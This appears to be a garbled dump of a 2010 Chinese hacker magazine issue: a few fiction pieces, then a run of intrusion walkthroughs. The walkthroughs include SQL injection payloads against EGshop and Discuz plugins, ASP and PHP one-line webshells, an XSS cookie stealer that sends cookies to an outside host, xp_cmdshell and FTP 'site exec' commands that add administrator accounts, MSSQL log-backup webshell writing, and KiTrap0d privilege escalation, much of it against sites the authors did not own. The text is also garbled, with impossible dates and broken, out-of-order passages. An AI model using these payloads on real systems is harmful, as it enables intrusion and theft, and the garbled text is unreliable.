佛教教徒想在教学中把复杂行为化为可理解的表达，清心之中保留“顺文”与量子叙事的复杂性。“译者”“逻辑”“座有”等概念把人们带入崭新世界，重新认识文明关系，感受语言与信息的多重意义及其结构规则。作为面向未来的陈述，它既解释生活，也阅读社会；语言不再只是传达，也成为理解自身的方法。

他在想：所谓“明文”到底意味着什么？是否一切未经加工的表达都能被理解？“加密”又是否只是另一种遮蔽？当信息交给算法、装置和系统时，它究竟在何处被保存、被理解、被改变？这些问题不断被提出，也不断被推翻。它们并不追求单一答案，而是在追问人和世界如何建立联系。

### 2010 第三季

## 黑小说

## 七、铿锵丽水大事记

公元前 5 世纪，古希腊斯巴达出现原始密码器：将带子缠绕木棒，沿轴向书写明文；解下后文字杂乱，缠回同直径木棒即可还原。这是最早密码形式之一。

2033 年，对计算机系统与网络扫描的国际标准出台。以此为标志，量子密码被描述为由量子物理定律保证、理论与实践上都极难破译的体系。人类终将得到“既简单实用又绝对保密的密码体系”。

1938 年，“努萨”在量子密码领域的技术突破，被叙述为开启量子加密新时代。政府与军队因此提出大量秘密防护需求。

小说本身写作风格偏少儿幻想，借平行空间描写一座美丽岛屿，并改写了宇宙密码历史。

- 编辑点评：这是作者在黑客手册上发表的第二篇小说。与前作一样，具有浓厚的幻想主义色彩。只是文中的“密码大事记”与前文剧情衔接略显不足，内容上存在一定夸张。

## 第四季：当幸福来敲门

图文：逸水

到这个城市已经有些年头了。大学毕业后第一次面对“不得不”的选择，我们这一代像在灰色背景里前行。街道记忆绵长，灯红酒绿之下，世界仿佛也学会了沉默。

大学里的梦幻，终究成了毕业长卷的尾声。几年过去，时光把锐利磨钝，城市高楼窗口像偶尔眨眼的红房子，不再理直气壮，却仍有微光。

每年公司门口进进出出一群职员，有平凡，也有青春气盛。有人吃饭、发微博、说笑，日常琐碎却真实。

“怎么了？”看到坐在椅子上闷闷不乐的少年，我轻声问。  
“嗯？”他说电脑开机后一直异常，网页浏览也频繁中断。  
我问：“不是系统崩了么？”

“中毒！”他苦笑着。旁边同事也问：那怎么办？

“不是大问题。我对电脑有点研究，只要不是硬件问题，基本都能解决。”

“真的吗？那你能帮它恢复一下吗？”她急切地问。

晚上，我们把电脑带到楼下。灯光柔和，城市难得安静。坐在屏幕前，我用诊断工具处理了病毒和系统故障。那一刻，像在城市深处，也像在人心里，忽然亮起一扇窗。

“好了。”我起身笑着说，“这下你可以放心了。”

“真的呀？修好了？你很强啊。”

“对啊。我的电脑叫乐乐，L、O、C、Q。我其实只是偶尔玩玩 PSP 游戏。”

“哦哦，终于好了，系统修好了，也安全了。我这边应该没问题了。”

## 黑小说

### 2010 第四季

的主宰棒。可是，一封邮件偶现了我的生活，是死水尽起，还是沧水涟涟，一切变得那么未知。一个平常通讯的牛人，打开邮箱，看到了一丝非-与信。

“你好，不要猜测我是谁，我知道你是谁。你像你写作业内部门网络编辑推销，传早上 8 点上班，下午 6 点下班，有着强迫时间感；回复我。”

“算了”，第一次反应，是稳坐公司哪个部门，我当然最平先天。我是依然无能，但是若舍个天心情不错，我决定会这么对付人。

给我发邮件的不是一个 QQ 邮箱，越站安站，你的 QQ 号我就没报过？。不知道不该的，QQ 资料也没选项弹保持住。得有可能是新注册的号码，看来这个人还定不知道没有名字的了解，了解本身是被利用过或化解了。

“你是谁？你有什么目的吗？”

就这样，生活似乎是多了一件事，每天可以收到一封来自陌生而又感觉压抑的人写的一封情书，邮件中都不是冰雹春花满草的味道，但是不知为何，……

“就请你先上班中午，做事忙，我现在希望知道你要做什么。”

我的邮箱中，不是会员，只有我一个人，他又是怎么知道这位这么具体的行踪呢？别是黑，是不是闹的象？

……

的都记忆还是有的。因为这样有涉及什么文件，那么说宜一年的文件或一张图片。是系远在的

这个问题的分支单要还空了我的电脑病毒使个人木马的想法，弄崩了这半个老套系统的东西？

……

两个文档的时间提示可能就是你收到的邮件内容？

“你以为是谁？”

“你知道你的身份。”

“你是谁？”

“你的身体不正常。”

……

邮件说你很快得到了回复，但是结果却出其意料的好。

“很喜欢你给我的名字，‘X’，一个和我名字比较含蓄的字母，呵呵。”

不了解你、取关你好友太多。其实进程又来了，黄昏，还在很远处等了，下午2点，我们已取下无别忧虑，不见不错？

……

在朗朗的电子笔中，那个甜蜜而又明显的字母被拉出了 180°。

“是你！居然是？”

“当然是，觉得的事情很大，貌似下巴都要掉掉了上。头没有太了。”

“怎么？你可以是我吗？去找个地方坐坐，盯住了黑的同号，我会吧它们都变成感受。”

……

随着剧情的推进，时间线忽然落得很快，分类分发了时序，不高多人，左充声入逐步地交错。

“那你见我得消息？”

“再说什么都晚了。”

“那你下可不可以写。”

……

突然，电脑界面上的输入框像被什么东西占满了，邮件的后续信息一个接着一个弹出。

“约会”这种事情，在我看来并不陌生，但此时此刻，这种陌生感却像潮水一样涌来。

……

编辑点评：

很多的故事就是将聪明 MM 的电邮和埋伏人员了起来，看来笔者在技术水平方面是越来越好了。当然，这让读者总是一副“烧脑”的感觉，某些在此基础上的情节比较突兀，但也是别有风味……

### 中级篇

## Middle-Level

#### EGshop v1.2 注入漏洞分析与利用

EGshop 又名易易网上购物系统，官网是 www.eeg.com.cn，这套系统是“典型”的网上购物系统，与 ECSHop、ShopEx 等商城购物系统齐名。系统采用 ASP+ACCESS2000+DIV+CSS 构建，文件代码精简，执行效率高，功能齐全，性能高速度稳定……

### 一、漏洞分析

但是再好的系统都不是绝对完美的，尤其是在安全性方面。今天我就和大家一起来分析该系统的 SQL 注入漏洞，作者在系统的说明中说“本系统代码虽然复杂，但数据库 MD5 加密、防下载、SQL 注入攻击、数据库防下载等安全措施，难道真的这样吗？我下载了一套 EGshop v1.2 绿色版解压到虚拟机中，界面如图 1。


由于这套系统是采用 ACCESS2000 数据库，那我们就先来看看数据库在哪吧。查看目录与相关数据库文件夹位置在 data/#up 2000112，该系统默认的数据库名字。作者加上“#”号来防止下载，但是我们用“0.23”作为“#”，依然可以下载到数据库，如图 2。当然，有了数据库就有了后台的入口，用户名和 MD5 密码分析后续详述。

### 二、漏洞利用

分析完毕，我们开始利用这个漏洞。由于这是个注册用户才能访问的页面，所以首先要注册一个用户。出于习惯，我注册了一个用户为“clzzy.asp”，显示成功了。来测试一下账号，进入“收货人中心”，如图 3。我们点击“添加收货人”来添加一条收货信息，接下来我们也可以在“编辑”时观察到浏览器地址栏的参数，说明可以通过 url 参数进行注入。这里我们把 URL 改为 /User/shhr_inc.asp?action=edit&id=24&name=' and 1=1 and '1'='1 来验证，不同的注入方式，请注意这里是参数注入而不是通过页面提交表单。随后通过 union 查询来获取数据，结果如图 7。

### 四、总结

这套系统的漏洞十分简单，也很典型，希望新手能学会。


### 三、后台拿Webshell

后台的登录页面是 /admin/Login.Asp，如果你的人品足够好的话，破解 MD5 之后就可以登录后台了，如图 9，后台我粗略地看了下，至少有三种拿 Webshell 的方法。

- 方法一，直接上传 Webshell。我试了，可以直接上传 asp 格式的文件，这样就能简单地拿到 shell 了。
- 方法二，写一句话到网站配置。在“管理首页”旁边有个“系统配置”单击之后就可以更改很多网站的各种配置信息，这些信息都是保存在 Include/config.asp 文件中，因此可以通过在其中写入一句话来拿 shell。


config.asp 文件中，这是个 ASP 文件，你可以偷偷构造你的的一句话写到配置文件得到 webshell，如图 10，我这里只用“网络名”: "<% execute request("#") %>"。

- 方法三，数据库备份法。在“左边”控制面板的最下方有些“数据库备份”的选项，点击进入后就可以将数据备份到网站的数据库 MDB 文件，所以你只需写一句话到网站数据库，再备份成 .mdb 格式的备份文件即可。


```
function checkFFSQLStr(str)
    if isnull(str) then
        checkFFSQLStr = ""
        exit function
    end if
    str = replace(str, "'", "")
    str = replace(str, "\"", "")
    str = replace(str, "<", "")
    str = replace(str, ">", "")
end function
```

## IIS 解析漏洞纠缠利用

昨晚无聊，在群内发了一个小的进程中碰到了个网站，花钱是 YxBBS2.3，管理员用户名 admin，密码很舒服，登录就完成了后。进去后，发现有部分功能，而上传文章类型 uc、asa、php 等都被过滤了。尝试在“头像上传”那边修改，然而 uc 上传，仍未成功。于是，上传了许久，结果却是，图片名字写了 XLS 后缀漏洞。一是故意在上传的那个 tmp 目录中将名称改成了为“asa.jpg”，会被当作“假图片”上传上去，由于上传时按原来后缀名上传到 /uploadfile/head/ 下就不行了。

另外，网上也有这样的做法：通过二次上传，从而得到两个“.”，比如“1.asa，1(1).jpg”等。这里补充一个利用 IIS 解析漏洞的方法：通过 shell——“1.asa,1(1).jpg”。如果名字被设置成“gif,jpg,rar,png,doc,xls”等常见形式，能触发服务端对上传类型限定为“gif,jpg,rar,png,doc,xls”等常用类型，甚至能够得到相应的脚本执行结果。

## 初探 XFS —— 入库的 XSS

从本文你可以学到：了解 XFS

中国的 web2.0 在蓬勃发展，asp+access 架构的网站逐渐少了，php/jsp+mysql/mssql 的网站渐渐多了起来。不介入的结果，asp 地位会在中国的互联网舞台上逐渐消失。对此，Web2.0 时代的用户上传机制中，不论是对于基于 access 数据库的网站，还是基于 mysql、mssql、Oracle 的网站，注入点都将有巨大的比例。

在利益驱动的驱动下，个人越来越多的关注站长水平，以及，更多的拿捏键字……这就给了在最大程度上被动的 XSS、CSRF、SST 以及入侵式带来更多的机会。

IIS 解析漏洞属于：除了“解析漏洞”之外，主流 IIS 具有的一个特性：对脚本文件、图片的后缀名中的字母进行解析时，如果符合解析规则，会以其作为脚本执行。

### 一、XFS 简介

XFS（cross from scripts）是一种应用 Char() 过程的若干组合，进行字符的构造，产生 ASCII 码的手法。

对于一个文中提出的针对 XFS 的网站，如果有输入框，则只要输入特定字符并提交，就可能产生脚本注入或执行漏洞。


### 2010 第一季

## 西线无战事 | Middle-Level


我们构造语句如下：

```php
<?php
$cookies = $_GET['cookie'];
if ($cookies) {
  $grab = fopen('grab.txt', 'a');
  fputs($grab, $cookies . "\n");
  fclose($grab);
}
?>
```

```html
<SCRIPT>location.href='http://www.ccoz.org/cookie.php?f=' + escape(document.cookie)</SCRIPT>
```

上面代码会将 cookie 中的值以 ASCII 码、甚至以第 3、4 层方式记录到 grab.txt。结果如下：

### 3、总结

其实说白了，XFS 并没有什么高深之处，其实原理和 CSRF 有着相似之处，但是这种站点最主要在主次未变。建立，理应一切流转到自己的服务器中，凭借页面的跳转或者 JS 及其他方式，表单在执行时，服务器端数据还是看不见的。

#### 密码字典 + 扫描器 = LAN 定点入侵

题记：某某与大鸟在入侵过程中做出别想：前者总是大抵网络黑盒式，逃避着跟形势，就是用扫描情绪进行密码暴破的规模——哪一个字母，几个就能定住，而后者则是拟逆了他的一个目标点（本来个网内的IP），通过 N 证和掩令将各不同于攻击密保，直到收下。

### 一、用“真空密码字典生成器”制作密码字典

如果刚才的思路正确的话，那么我们就可以从小菜菜变身为大鸟了——对定点 IP 进行入侵！这第一步当然需要制作一个包含大段所有工具密码的密码字典，只需先从本机拷贝一个包含数字到字符串、拼音字符、以及常用密码等的文本文件，然后利用真空密码字典生成器进行密码字典制作。不必 O.K 了。

这是什么？一个类似于地狱牌的真实密码生成器？是“自动定制密码字典”的一个小工具？……


### 二、将密码字典文件挂接到扫描器上

如果将密码字典文件比作是两份的话，那么扫描器无疑就……

### 中级｜西线无战事

这是研究某篇古文的样式。在此我还是要淡记自以为最炫的 X-Scan，某 3.3 中文版，下图地址是 http://www.xfocus.net/tools/200507/1057.html。解压缩后先不要忙着运行，因为我们此时想要测试的就是将自己的文件与它对冲。打开书中的 dat 文件夹，看到了么，里面许多许多基本图标的纯文本文件，通过它们的名称我们就能知道此处在使用：……


接下来就简单了：对着运行 X-Scan 默认的扫描 Windows 登录用户的字典文件，选项是“弱密码、同名用户名、空密码”等。然后在“扫描结果”页面，某些情况下还可以看到 NT-Server 相关信息……


通过控制面板进入“本地安全策略”中的“账户策略”“密码策略”，将最小密码长度改成一个比较合理的值，例如 6；再把“密码必须符合复杂性要求”打开，这样基本就可以防止弱口令的产生。


#### 微软，今天你被黑了吗？

### 一、前言

最近网络比较大的应该是微软网站被黑事件吧？那天朋友圈里有人说，微软的两个国际站都挂掉了，发来两个链接：

- http://forums.microsoft.com.mk/dark.htm
- http://www.microsoft.com.al/dark.html


### 2010 第一季

## 西线无战事 | Middle-Level


利用什么手段黑进了微软的网站呢？是 0day 再现江湖，还是某个传说页时代老系统漏洞的利用？

### 二、测试经过

当我在网上查阅网页站点的后面跟一个任意的不可路径进行访问时，分别会显示如图3所示和图4所示的页面。


### 三、结论

“蜜罐”？对，就是蜜罐！经过如上分析，我们现在有充分的理由推断出这是一台隐藏在集群中的蜜罐机。


点击机，网络怎么又逃走了呢？


### 四、写在最后

攻击方式，和使用的工具等。

## 由入侵母校引发的 苏亚星VOD点播系统 V5.0 漏洞

### 中级｜西线无战事

### 2010 第一季


起因是个特奇文的样子，…… 这里略去若干正文内容。


找了个连接 http://vod.xxxx.net/vod2005/vodweb/office.asp?MD=6，试了一下手工注入，结果不行。后来发现是过滤了，还和 IP 有关系。


于是开始备份上传小马，然后再传大马，这对我来说只是九牛一毛。最后我找到了一个核心站的 aspx 木马，发现可以运行，而且还是 System 权限。


#### 对 XX 信息网的一次安全检测

### 一、收集信息

IP 地址、PING WWW.xxx.com、得到目标 IP 219.151.1.145。端口方面，发现开放了 80、1433、3306、5631、6000 等。

### 2010 第一季

## 西线无战事 | Middle-Level

### 二、踩点

分析一下，有1433、5631端口，目标服务器肯定是WINDOWS，而且开放了3306端口，又支持ASP、PHP，看来我们SSWEBHELL应该不太困难，先搞WEBSHELL吧……

思前想后，先看看进入。打开GOOGLE 搜索 site:xxxx.com inurl:php iframe>。

于是，采用一句话木马，利用ASP、PHP等方式上传，最终完成WEBSHELL……


D:\QSVW\WX\QZXW_WEＢ\index.asp，没放了 /webs ?

### 三、获取WEBSHELL

打了一个目录，没找到什么东西，主页上有个自助站点，点进去看了一下，可以用了7天，嗯，有点意思……

```asp
<%
...
%>
```

### 四、提权之路

一上来就让我们扫了一下，跳不出当前站点的目录，看来都是也不是吃素的。后来用到了PHP马，也发现狼破了。

#### 对远程服务器的一次渗透

再用命令 `net user` 看看，如图 11 所示。然后用命令 `net localgroup administrators xiaoo /add`，成功加入一个管理员用户，现在已经是最高权限了。接下来杀掉前面写好的，前面已经说了开木马 5631 端口，我们下它的 CIFS 回来，看能不能把密码改掉，如图 12 所示。简单，大家看下系统的用户名、密码（下图 12）后的这种变态设置。经过这么长时间，总算把这台机器拿回来，用 phpMyAdmin 去看了下，站也不算少，如图 13 所示。OK，换成管理后，走人。


编辑后记：这本书的内容经过再上传，并且 Iframe 变成图片的防盗链防护，这个思路还是不错的。

由于是利用网站漏洞进行渗透，本文以一个链接 `http://www.test.kr/view.asp?id=169` 为例，往往会先采用一个“1”，页面返回出错，如图 1。接着测试 `and 1=1`，页面返回正常，如图 2。再测试 `and 1=2`，页面返回错误，代表存在注入漏洞，可以执行 SQL 语句。然后通过注入得到的语句来查看数据库，使用 `master.dbo.xp_cmdshell` 执行命令，添加一个用户，3389 立即开放，可以远程桌面登录。最后通过 `telnet 221.148.1.1 3389`，再次确认远程桌面开放。


一步一步地分析，Web 和 Data 是不分离的，我们先进入后台查看系统，发现站点可通过 IIS 的目录列举发现站点目录，然后再执行 telnet 进行反向连接。在本地测试中，利用 `xp_cmdshell` 和 `netstat` 命令，可以看到 3389 端口已开放。最后使用 `master.dbo.xp_cmdshell` 执行 `netstat`，并通过 `C:\` 路径检查是否存在 `ntt` 文件，进一步确认远程主机可控。


对外开放了 80 和 139 端口，并且远程桌面服务是打开的。  
`http://www.test.kr/view.asp?id=169,exec master.dbo.xp_cmdshell 'echo <script language=VBScript runat=server> execute request("password")</script>' > C:\Hosting_...`，其中 222.18.54.145 是 IP，说明服务器已经被成功控制。

- 用于检查服务器权限和远程桌面状态
- 通过 SQL 注入执行系统命令
- 添加管理员账户并开启 3389
- 使用 telnet / netstat 验证端口开放

### 2010 第一季

### 西线无战事 | Middle-Level

#### 微软 NT 本地提权，打响 2010 第一枪

大家好，今天给大家带来的是服务器提权文章。这段时间 discuz 论坛漏洞、渗透弱口令，很多大站的分站都是因为 discuz 论坛源码被改的。刚好，朋友手中有不少利用 discuz 论坛提权的补丁，咱们把它们都整理出来了，利用最广的有趣 PHP 代码块。本文里也有很多站点的低权限漏洞、权限提权、webshell 提权、cmd 等内容。

只要我们修改 action 后面的地址，然后点击提交按钮，就会生成一句话木马，小马地址是 `http://www.xxx.com/formdata/cache/usergroup_01.php`，连接密码是 `cmd`。

### 一、Webshell

我们这里要拿 webshell 的网站是一个动漫论坛，先来看看利用 discuz 论坛漏洞拿 webshell 的实战。关于原理我这里就不详细说了，方法有两种，漏洞文件是 `misc.php`。

首先，我们注册一个论坛用户，注册后登录用户，点击下面代码的方法去获得 webshell。利用 GET 方法提交一句话 webshell 比较简单，只要提交语句就行了，但是有些论坛可能有限制。

用 POST 方法提交突破 webshell，首先把如图 1 的代码保存成一个 html 文件，在网页里打开，action 后面地址则修改为目标网站。图 1 中可以看到用方框标出来的地方，action 后面地址在攻击者网站上很常见。


### 二、KiTrap0d local ring0 exploit 挖根

现在我们已经拿到网站的 webshell 了，先来查看网站根目录下的 `config.php` 文件，里面有连接 MySQL 数据库的账户和口令。通过信息收集等，我们最终确定网上的服务器是虚拟主机，权限设置得还可以，很多文件夹都没有访问权限。网站 FTP 服务用的是该主机自带的，权限可以在这里轻易提升。利用 KiTrap0d local ring0 exploit 漏洞利用程序，先得到网站的管理权限。然后由于电脑是 2003 操作系统，我们的思路是 XP 操作系统。先后在本地机器的用户组中创建一个用户、加入一个普通用户组，并且在刚才服务器上进行 cmd 命令执行，加入用户组。随后我们将其权限提升到 Administrator，最后通过命令执行将权限进一步提升，达到 root 权限。


从图 3 中我们可以看到，执行 cmd 命令成功后，已经添加了一个用户名为 `1` 的用户。说明这个本地提权程序在 2003 系统下是可以用的。现在我们把 webshell 选好，在本地上传了一个文件，然后通过 webshell 再执行命令，把本地机器执行的 cmd 命令提交到服务器中，成功执行。

从图 5 中我们可以看到，命令已经正常返回。我们再通过命令执行将本地机器用户组添加到管理员组，再执行本地提权程序来提升为 root 权限。


### 三、总结收尾

到文章尾声为止，KiTrap0d local ring0 exploit 本地提权漏洞虽然出过补丁，大家手里可能没有好用提权的，可以用这个漏洞试试，希望大家对 2010 年微软 NT 内核提权第一枪有所了解。

这里再次感谢 GOOGLE 黑客声誉很高的 Tavis Ormandy 的共享精神，最后希望大家能从这篇文章中学到东西。如果有什么不明白的地方，可以到黑客手册论坛找我，我的论坛 ID 是 rabbitsafe。

【文章中提到的 KiTrap0d local ring0 exploit 已经发布出来】

编辑点评：这个提权工具并无太多花哨，只是一些不够通用的 shell，最终的 shell 是从提权程序里释放出来的。不过，如果这个补丁被扫描到的话，就能够分析漏洞。该工具其实是写 win32 的服务，肯定能写出一个有用的、能在 webshell 上直接用的提权工具。

## 《Discuz 插件漏洞引起的血案》

rabbitsafe

### 一、血案发生过程

今天要说的题目是一个电子交流社区网站，注册会员有 12 万左右，每天讨论很多。这么大的一个网站，因为 dz 论坛插件的漏洞而被攻破。

网站分了几个版块，主站是 UCenter Home 框架，从框架分析可以看到，基本是一个较大的版本，论坛则用的是 Discuz 论坛。

我们平时看 Discuz 论坛时，利用最近曝出的几个插件漏洞，能够成功进入管理，读取用户和会员信息。

论坛有个娱乐功能，里面有“会员 PK”“小游戏”“开口中”“江...”


大致上，最近工作也忙，没什么时间写文章。最近听说 Discuz（以下简称 dz）论坛几个插件都爆出了漏洞，很多朋友的 dz 论坛因此中招。那些插件的相关代码问题不少。

本文初衷是为了提高安全性，可惜插件安全性太低（毕竟大多数开发并非官方），这边也就这么说。这篇文章就是 dz 的一个插件漏洞，导致一个门户站被攻陷。具体情况请跟随我一起开始读挖掘之旅吧。

简单流程是使用本机在网站后台先进行 SQL 注入，并取得管理员账号密码；再利用插件漏洞进行提权，最终拿到 root 权限。

下面给出具体利用过程：

- 先通过 `index=show&id=3236` 提交参数，使用 `and 1=1` 和 `and 1=2` 返回页面内容不一样，前者正常，后者错误，说明存在 SQL 注入漏洞。
- 再用 `order by` 的方法猜列字段数，提交：`http://bbs.xxx.com/forumission.php?index=show&id=3236 order by 10/*`，页面返回内容正常。
- 再提交 `http://bbs.xxx.com/forumission.php?index=show&id=3236 order by 16/*`，页面返回错误，说明字段数在 10-15 之间。
- 再提交 `http://bbs.xxx.com/forumission.php?index=show&id=3236 order by 11/*`，页面返回内容正确，说明字段数是 11。
- 接着提交 `http://bbs.xxx.com/forumission.php?index=show&id=3236 order by 12/*`，页面返回错误，说明字段数是 11。

从图 1 中我们可以看到，MySQL 数据库连接用户是 root，版本是 5.0 以上。看到这里，大家想到什么了？root 用户对 5.0 以上版本的 MySQL，很多操作权限都比较高。

cd 到 PHP 安装目录，把 `mysql5.php` 放在 PHP 目录里，执行 `php mysql5.php -u` 命令，列出论坛数据库下所有表名，如图 3。


从图 3 中我们可以看到，论坛表的前缀名是 `psp`。再去看 `psp_members` 表的管理员账号和口令，提交  
`http://bbs.xxx.com/forummission.php?index=show&id=2464+and+1=2+union+select+1,2,group_concat(uid,0x3a,username,0x3a,password),4,5,6,7,8,9,10,11/**/from/**/psp_members/**/where/**/groupid=1--`，返回了管理员的账号和口令，如图 4。


从图 4 我们可以看到管理员的账号和口令。先到破解 MD5 值的网站上去破解看看，部分有结果。32 位 MD5 值并非总能“好运”破解出来。

论坛插件漏洞尝试：打开 `http://down.xxx.com/e/admin/`，登录后发现存在可提交参数，构造 POST 注入漏洞，通过 `select+concat(0x3C3B3BAC73FB,username,0x3CDC2E8,password)+from+phome_enewsuser+where+userid=1` 可得到账号与口令。


从图 6 中我们可以看到，账号名和口令都泄露出来了，还是破解没有结果。过段时间再继续尝试。现在我们再看进入 dz 论坛后台之后怎么登录成功。


图 6 里可以看到论坛后台登录后进入页面。登录论坛后台，访问 `http://bbs.xxx.com/admincp.php?action=styles&operation=edit&id=&adv=1`，在最下面“自定义模板变量”中填入 `rabbit safe;#199;eval($_POST[CMD]);`，替换内容随便输入，提交后即可。


### 二、防范血案发生

这次渗透能拿下这个大站，主要是因为程序编写问题。“江湖客栈”事件中，`forummission.php` 对 `id` 变量没有过滤，导致注入漏洞。防范方法是：只要对 `forummission.php` 稍作修改，这段利用就失效了。

安全是一个整体，安全防范就像木桶原理。一个木桶能装多少水，永远由最短的那块木板决定。如果文章中有不妥之处，可以到相关安全论坛交流，我的论坛 ID 是 rabbit-safe。

【文章修改后的结构和入侵工具的注意事项】

编辑点评：几个常规的编码和安全规则，先是过滤，然后后台安全 shell，再是 root 提权。不过这方法并非适合所有站点，最好按站点实际情况处理，例如程序中的参数、变量以及各类 exp。用 root 权限改网站，破坏性非常大。


这样一句话木马就生成了，地址是 `http://bbs.xxx.com/forumdata/cache/style_1.php`，如果你修改的 style id 值是 2，webshell 就是 `style_2.php`。

我们来传送一句话木马，如图 9，成功拿到 webshell。接下来就是上传大马，提升权限。

下面我们打开站点首页，上传一个大马到服务器上。查看论坛根目录下的 `config.inc.php` 配置文件，获取主站 MySQL 数据库的 root 用户口令。于是再把 SQL 注入工具和大马结合，打开 `netstat -an` 查看服务器开放端口。


## 有请检测某中学网站

最近这段时间，某网站如常运行。打开网站后发现了几处漏洞，不过我们没有在意。后来发现了新情况，站点似乎被入侵了，并且留下了若干痕迹。

用 IE、ReadNews、ASP 等方式在网上搜索了一下，最后确定是 E 站。然而网站管理员在后台操作时出现了异常登录信息，似乎与数据库或路径有关。

用 DB 后台，尝试填写日志时会出错。在网站目录中发现了一些文件，数据库被添加到了多个地方，形成了若干可疑记录。


#### POST 型注入点下的 LOG 备份入侵

### 一、开始

偶尔得到了一个注入点，用图 1 检测如图 1 所示。虽然能够对某些参数进行判断，但用户名和密码这两个字段仍然较为敏感。若输入内容发生变化，说明存在注入点，继续测试下去可进一步定位漏洞。

### 2010 第一季

## 西线无战事 | Middle-Level

GETWEBSHELL（也就是 LOG 备份攻击中专用于备份 WEBSHELL 的工具）的实现原理是：先以 GET 方式提交给内网，利用变种下的 POST 注入点，且在执行 BACKUP LOG 时把一整个以 GET 方式提交的内容再加 POST 方式提交。所以，用现有的各个工具（包括 NBSI 的 GETWEBSHELL 与 56 号站的 getwebshell）备份成功也是必然的。

虽然知道问题所在，但一时还是找不到好的解决方法，只好去海明网站（www.cheack.com）找找。去年得到的过程里，找到了最可用的页面：web 后台，并且破解出了网站的小众管理密码，如图4、图5所示。可是登录时还是提示密码错误，如图6所示。继续查看目录，发现网站中有 FCKEDITOR 和 WEBEDITOR 编辑器，但将网站规则的所有漏洞都测试过后，发现没有一个可以利用。所以除了网站的 MSSQL 数据库漏洞外，其它漏洞几乎没有成功可能。

## 二、LOG 备份

后来思路也改变了，好在对 NP 在海明留下的内容做了认真准备，才有本文内容。首先，在网上找到了它提到的提交方式，这样我们就可以做备份了。接着在登录时，把字段里提交数据的中间值提取出来，内容如图7所示。原来是用“+”（不带双引号，下同）替代空格，然后在注入点手工提交“id=477+and+1=1”，返回了一个出错页面，内容如图8所示。接着又输入“id=477+and+1=2”，返回了另一个出错页面，如图9所示。

如果在“1=1”和“1=2”的情况下返回两个不同页面，就说明程序一定存在注入漏洞。接着再输入“create table haozi;--”，试着创建一个名为“haozi”的表，想直接把样本……

语句也要做相应转化才能执行。当所有语句执行完成后，兴冲冲去访问我的主机，结果却返回 500，如图15所示。

好，为什么会是 500？起初将马备份为 TXT 格式，下载下来看看内容，如图16所示。显然有 1M 那么大，我感觉这不只是执行过程而已。

到了主页，真是郁闷，只好继续在前面的基础上等待。后来做了更多检测才有进展。程序过滤了 GET 方式提交的非法参数，而 POST 几乎不受约束。但 POST 方式提交的数据限制也不一定很大，为什么呢？因为前面的检测已经告诉我们，POST 提交的语句可以正常执行，所以我们可以手工发包提交伪造语句。

先找来 LOG 备份 SQL 语句如下：

```sql
alter database 分类名 set recovery FULL
backup log 备份名 to disk = 'd:\hozi' with init
create table shi_tmp ([cmd image])
insert into shi_tmp ([cmd]) values (...)
backup log 备份名 to disk = 'd:\xxx.com\z.asp'
```

然后将已经在抓包中拿到的数据包复制到本地保存为 1.txt，这里把攻击语句和数据包合在一起保存，便于管理。尝试用 NC 提交，格式为：

`nc -v www.xxx.com 80 < 1.txt`

第一句包被提交，回显如图11所示。

记得我们在想怎么写一段 EXP 让数据库返回信息，这不就来了？这已经不是正常 SQL 语句，而是前面初始化数据库日志时返回的查询信息，如图12所示。程序在过滤内容时把“?”也过滤了，这个问题可以用简单编码绕过。

找到网页编码工具，将我们要提交的语句转换为 MSSQL EXEC 编码即可，如图13所示。

提交后，这次终于得到了一个可爱的 SHELL，如图17所示。

接着利用 LAKE2 客户端连接后，发现不允许上传文件。无奈之下，只好将站点中一个不起眼的 ASP 文件内容替换为新的 ASP 代码后保存，得到了大马。

## 三、提权

拿到大马后发现，不允许再用原始 CMD.EXE 执行命令，所以上传了 ASPPACK 轻量版中的 CMD.exe（图18），在 2003 系统权限下上传文件。也可以将 ASPPACK 压缩包中的 CMD.EXE 作为标准系统命令执行，并将文件及执行程序复制到本地。在 cmd 下通过 `net start` 查看服务情况，发现新启动的是 Apache 服务。

本地 IIS 提权之一是：提权用户为 SQLSERVERAGENT，且它有远程连接权限。利用 remoteanywhere、Terminal Services 后，终于可以利用 DB_OWNER 或 PUBLIC 用户执行 JOB 任务，达成类似远程执行命令的效果。

一个容易忽略的问题就是权限。MSSQL 在与 SQLSERVERAGENT 的运行中，提供了一个可利用的 JOB 执行点，这点理解越清楚，越容易利用。

本地 CMD 下执行命令：`telnet www.xxx.com 21`，连接目标站 21 端口，监听到 Serv-U 成功连接。通过 Serv-U 管理界面修改 Serv-U 配置文件，得到管理员权限。

该机的 SERV-U 8.6 版本在与 SERV-U/ASPX 执行时会产生漏洞，因此利用其远程执行命令时需要修改配置文件并重启服务。之后再通过 telnet 测试并确认服务状态，便可进一步完成提权。

## 四、不是结尾

登录纷纷成功，如图25所示。

接下来在本地 cmd 下登录目标站点 FTP，跳转到 SYSTEM32 目录，执行如下系统命令添加系统用户并将其提升为系统管理员，如图24所示。

```bash
quote site exec "net user herojs5h hswj123 /add"
quote site exec "net localgroup Administrators herojs5h /add"
```

读者们应该都记得上一年9月份《安全上》我写的《雪大的 Mshta 与伟大的 Find》这篇文章吧？不知道各位读者看到这里时，是否注意到“受控”这个标签下的一些命令列表。这里不是简单点杀木马，而是需要完成具备监控功能的下载与命令执行标准方式。本文用 User 对象和 Goto 命令，不去测试这类批量程序如何运行，而是把程序和命令行语句分离，重点考虑这种新型批处理写法。

关于 Start 命令的帮助，读者可在 cmd 下输入 `Start /?`，回车后可看到说明，如图1最后一点。

我在 cmd 中输入 `Start /wait echo 祖国万岁`，回车后出现第二个批处理，显示“祖国万岁”并进入命令输入状态，前面步骤没有问题，如图2。

下面我把第二个批处理结果再生成一个批处理，结果就变成了一个“C 终止批处理操作吗(Y/N)？”。

```text
:Quote
Title Wait
:Wait
Start /Wait echo 祖国万岁
Goto Wait
```

执行约 1 分钟后，批处理通过这个命令行被创建。当我们关闭这个批处理终端时，第1个是显示“祖国万岁”的批处理。当我们关闭第2个批处理时，第1个显示“C 终止批处理操作吗(Y/N)？”，如图4。

112 nohack.me

## 绕过 ACL 进行引授权访问

如果我们输入 Y，那么第一个批处理将结束；如果输入 N，那么第一个批处理不会结束，而第2个批处理会继续执行。我意识到，这种输入可控的批处理程序对此几乎可以自动化。

本文将介绍通过 ACL（Access Control List，访问控制列表）进行访问绕过的方法。通过对网络设备访问控制策略的分析，可以发现一些可利用特性，从而绕过某些限制。

```text
hostname R1
interface FastEthernet0/0
ip address 192.168.1.1 255.255.255.0
ip route 0.0.0.0 0.0.0.0 192.168.1.2
access-list 1 deny 192.168.3.2
access-list 1 permit any
line vty 0 4
access-class 1 in
login local
transport input ssh
```

```text
R2#conf t
